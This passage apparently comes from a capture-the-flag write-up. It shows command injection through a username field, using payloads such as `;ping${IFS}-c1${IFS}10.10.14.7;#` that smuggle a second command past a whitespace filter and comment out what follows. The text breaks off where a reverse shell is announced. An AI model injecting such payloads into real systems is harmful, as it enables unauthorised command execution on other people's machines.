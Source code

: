 It appears to be executing something like `ssh <hosname>:<username>` and not giving the username input leads into that error.

Maybe we can concatenate code to make the target execute it? Let's try it writing in the input `;ping -c1 10.10.14.7 ` and listening for icmp in our machine to see if the code gets executed: `tcpdump -i tun0 icmp -n`

![Untitled](img/Pasted%20image%2020231013170314.png)

Apparently the input cannot contain whitespaces, and URL encoding them don't help. We can try replacing the spaces with `${IFS}` that will be interpreted by the bash as a space. So, the username input will look like this: `;ping${IFS}-c1${IFS}10.10.14.7`

![Untitled](img/Pasted%20image%2020231013171105.png)

Now the input seems right, but we keep getting an error. Maybe the command is not `ssh <hosname>:<username>` and it's something like `ssh <hosname>:<username> flags and more code`. If this is the case, maybe we can comment everything at the right of out input by adding `;#` to the input. So the username input would be: `;ping${IFS}-c1${IFS}10.10.14.7;#`



![Untitled](img/Pasted%20image%2020231013171037.png)Yeah! Our machine received a ping from the target machine, so we can execute commands in the target machine. Let's try to obtain a reverse shell:
